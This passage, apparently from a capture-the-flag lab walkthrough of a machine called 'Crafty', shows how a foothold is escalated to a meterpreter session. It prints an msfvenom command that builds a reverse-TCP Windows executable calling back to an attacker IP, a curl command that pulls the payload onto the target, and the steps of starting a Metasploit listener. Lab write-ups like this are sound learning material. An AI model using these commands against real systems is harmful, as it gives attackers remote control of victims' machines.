 ```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.86 LPORT=4444 -f exe > tnt.exe
```

To transfer the payload, navigate to the current user's (svc_minecraft) desktop and use the following command:

```
curl http://10.10.14.86:8000/tnt.exe -o tnt.exe
```

![crafty_10.png](/assets/posts/crafty/crafty_10.png)

I then used multi/handler in Metasploit as can be seen below to start a listener:

![crafty_11.png](/assets/posts/crafty/crafty_11.png)

Back on the shell we have for the target machine, I executed the payload:

![crafty_12.png](/assets/posts/crafty/crafty_12.png)

As can be seen in the screenshot below, we now have a meterpreter shell:

![crafty_13.png](/assets/posts/crafty/crafty_13.png)
